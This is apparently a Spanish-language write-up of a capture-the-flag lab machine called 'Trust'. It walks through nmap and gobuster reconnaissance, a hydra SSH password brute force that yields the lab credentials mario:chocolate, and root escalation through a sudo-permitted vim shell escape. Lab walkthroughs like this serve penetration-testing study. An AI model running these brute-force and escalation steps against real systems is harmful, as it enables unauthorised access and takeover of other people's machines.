






# Trust

`nmap -p- -sS -sC -sV --open --min-rate=5000 -vvv -n -Pn 172.17.0.2`

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,bak,zip -t 50 --exclude-length 10701`

Se utilizó Gobuster para buscar archivos y directorios ocultos. Al notar que la página principal devolvía un tamaño comodín (wildcard) constante, se aplicó una regla de exclusión para filtrar falsos positivos:

encontramos el directorio secret.php

## FASE DE INTRUSIÓN

haremos la intrusión mediante hydra. Como ya sabemos el usuario solamente debemos de realizar la búsqueda de la password con el rockyou.

`hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

realizamos la intrusión

ssh mario@172.17.0.2 con las credenciales mario:chocolate

## ESCALADA DE PRIVILEGIOS

con sudo -l vemos que comandos podemos ejecutar como root

El usuario mario puede ejecutar el editor de texto /usr/bin/vim como root sin ningún tipo de restricción.

### Abuso de Binario (GTFOBins)

Aprovechando las capacidades interactivas de Vim para invocar subprocesos del sistema, se ejecutó el binario con privilegios elevados forzándolo a abrir una consola interna (/bin/sh):

`sudo /usr/bin/vim -c ':!/bin/sh'`

